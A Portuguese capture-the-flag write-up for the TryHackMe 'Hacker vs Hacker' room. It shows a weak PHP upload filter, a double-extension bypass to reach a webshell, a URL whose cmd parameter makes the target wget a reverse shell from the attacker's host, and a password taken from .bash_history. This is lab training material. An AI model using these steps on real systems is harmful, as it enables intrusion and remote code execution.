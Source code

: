 https://tryhackme.com/room/hackervshacker

## Recon

Usando NMAP apenas as portas 22 (SSH) e 80 (HTTP) estão abertas.
O site conta com um upload de arquivo pdf e é possível ver através do `/upload.php` que ele armazena em `cvs/` o arquivo e verifica se o arquivo é pdf apenas comparando se a string contém ".pdf" no nome.

```html
Hacked! If you dont want me to upload my shell, do better at filtering!

<!-- seriously, dumb stuff:
$target_dir = "cvs/";
$target_file = $target_dir . basename($_FILES["fileToUpload"]["name"]);
if (!strpos($target_file, ".pdf")) {
  echo "Only PDF CVs are accepted.";
} else if (file_exists($target_file)) {
  echo "This CV has already been uploaded!";
} else if (move_uploaded_file($_FILES["fileToUpload"]["tmp_name"], $target_file)) {
  echo "Success! We will get back to you.";
} else {
  echo "Something went wrong :|";
}
-->
```

Tentei fazer o upload de um arquivo `shell.pdf.php` e acessei `cvs/shell.pdf.php` não era o meu shell reverso mas sim outra webshell que através do parâmetro `cmd` foi possível executar os comandos de forma remota.
Tentei passar alguns comandos com o nc, python, bash, para conseguir acesso a shell mas não consegui, então minha solução foi abrir um site na minha máquina e através do *wget*, baixar uma shell reverso em php e rodar ele pelo site vulnerável e consegui o acesso ao shell do site.

```
http://IP-ALVO/cvs/shell.pdf.php?cmd=wget%20http://MEU-IP:8000/webshell.pdf.php
```

## Privesc

Em `/home/lachlan` é possível ler o que tem no `.bash_history` e nele há a senha para acessar este usuário: **thisistheway123**.
